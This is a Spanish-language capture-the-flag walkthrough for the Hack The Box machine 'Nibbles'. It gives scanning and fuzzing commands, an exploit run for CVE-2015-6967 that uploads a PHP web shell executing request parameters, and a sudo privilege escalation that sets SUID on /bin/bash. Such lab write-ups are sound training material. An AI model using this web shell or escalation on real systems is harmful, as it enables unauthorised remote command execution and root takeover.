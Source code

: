 # Nibbles-HTB
Resolucion de la maquina

## NMAP

```
nmap -sS -Pn -p- -vvv 10.129.78.48 -oG ports
nmap -sSV -p22,80 10.129.78.48 -oN Scan
```

## FFUF

```
ffuf -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ

```

## WFUZZ

```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ
```
## searchsploit

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/067c5f78-efb1-4b02-bbe8-25396bb2ed12)


```
searchsploit nibbleblog
## Examine
searchsploit -x php/remote/38489.rb
```

> https://github.com/dix0nym/CVE-2015-6967

Examinando el exploit vemos que se puede ingresar con el password por nibbles y un usuario que habiamos identificado ya admin.


## RCE

```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

```

En el exploit vemos a ruta y ademas que renombra el archivo al de shell.php a image.php.

## Privilege Escalation

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/12047cef-97a8-4ca2-b78c-4fc7f5f7666d)

Esto quiere decir que podemos ejecutar como root y sin password monitor.sh

```
mkdir -p personal/stuff
touch monitor.sh

#!/bin/bash

chmod u+s /bin/bash
bash -p # la bandera privilege

```


































